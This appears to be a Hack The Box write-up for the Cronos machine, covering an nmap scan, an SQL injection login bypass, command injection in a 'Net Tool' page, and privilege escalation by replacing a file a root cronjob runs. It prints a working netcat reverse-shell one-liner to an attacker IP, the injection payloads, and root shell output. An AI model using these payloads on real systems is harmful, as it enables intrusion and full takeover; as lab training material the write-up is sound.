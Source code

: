 ```yaml
---
layout: post
title:  "HTB Cronos Machine Writeup"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```


# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
# pwning user
The presence of port 53 being open hinted to me that virtual host routing may be involved. Edit /etc/hosts file to add `cronos.htb` for a site to resolve.
Resolving the host also returns 'admin.cronos.htb' so add that too.

The admin subdomain automatically stood out so i went to the page and found a login form. Basic sql injection ('OR 1=1# and any password) bypasses the login and allows us entry into the page. 
"Net Tool v0.1" allows us to input code to execute but we can inject our own by adding a semicolon after the expected address. Inject a basic bash reverse shell and run a listener to recieve a shell.
```
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1234 >/tmp/f 
```
We can now grab user.txt

# Gaining root
As the box name suggests this proceedure may involve a cronjob. Doing a check for jobs returns the following;
```
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

From this it appears that root is executing the file 'artisan' on a regular cron. If we replace the file in this location with one under the same name it should execute as root. Placing a shell here executes when the cron triggers and gives us a shell as root.
```
listening on [any] 9150 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.13] 44730
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 10:57:01 up 3 days,  1:20,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
```
Can now grab the root flag and cleanup.

